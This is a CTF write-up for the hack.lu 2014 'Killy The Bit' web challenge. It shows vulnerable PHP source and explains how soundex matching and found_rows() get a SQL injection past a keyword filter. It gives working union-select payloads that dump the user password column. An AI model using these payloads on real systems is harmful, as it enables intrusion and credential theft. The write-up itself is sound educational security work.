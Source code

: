 ```yaml
---
layout: post
title:  "hack.lu CTF 2014 write-up: Killy The Bit"
author: f0rki
categories: writeup
tags: [cat/web, lang/php]
---
```


## Write-up

This was a fun challenge :) The setting was that the royal bank of Fluxembourg
was hacked by Killy the Bit and now they set up a page to reset the user
passwords. Because Killy owes us a favor we received the source code for the
password resetting page. So the whole thing was php using mysql as a database.
Inspecting the source you can easily spot the SQL injection vulnerability.
But finding it wasn't the challenge, actually exploiting it was.

```php
<?php
include 'config.php';

// unintersting HTML output truncated

//<!-- blind? we will kill you :) -->
    if(isset($_GET['name'])
        && $_GET['name']!=''
        && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name']))
    {
        $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            // Generation of new password
            //<topsecure content>
            // this was filtered during the creation of the phps file
            //</topsecure content>
            die("A new password was generated and sent to your email address!");
        } else {

            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            if(mysql_fetch_object($res)) {
                echo "We couldn't find your username, but it sounds like this user:<br>";
            } else {
                die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
            }
            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            while($row = mysql_fetch_object($res)) {
                echo $row->name;
                echo "<br>";
            }
        }
    } else {
        // uninteresting HTML output truncated
    }
?>
```

As you can see on line 9 we cannot use and, or, sleep and benchmark in the
query which makes exploiting this a little tricky. In total the whole script
performs three queries. We do not see any output of the first two queries. Of
course we could do a blind SQL injection here, but this is made harder by the
preg_match filter. As it turns out we can craft an input so that the first
query returns 0 rows, the second one returns 1 row and the last query returns
all the possible rows. The key to this is the 'sounds like' part of the
last two queries. 'a sounds like b' is a shortcut for 'soundex(a)=soundex(b)'.


    > select soundex('admin'), soundex('admni');
    +------------------+------------------+
    | soundex('admin') | soundex('admni') |
    +------------------+------------------+
    | A350             | A350             |
    +------------------+------------------+


Now we can get to the last the query by using 'admni' as the value for the
name column in the where part of the query. Now we need to use union select
to actually fetch data. Unfortunately just simply injecting the following

    admni' union select passwd, email from user -- x

makes the first query to succeed and we don't see any output. So we need to
find a way to restrict the union select to return 0 rows in the first query.
Fortunately there exists the
[found_rows function ](https://mariadb.com/kb/en/mariadb/documentation/functions-and-operators/information-functions/found_rows/)
in mysql, which returns the number of rows found by the last query.
By injecting the following we can get the first query to return 0 rows and
thus we get to the interesting else branch.

    admni' union select passwd, email from user where found_rows() > 0 -- x

1. query: returns 0 rows, name='admni' is false, found_rows() is 0
2. query: return 1 row, sounds like 'admni' returns 1 result ('admin'),
   found_rows() is 0
3. query: returns lots of rows, souds like 'admni' is true, found_rows() is 1
   and therefore we get everything in the passwd column.

...and we got the flag :)
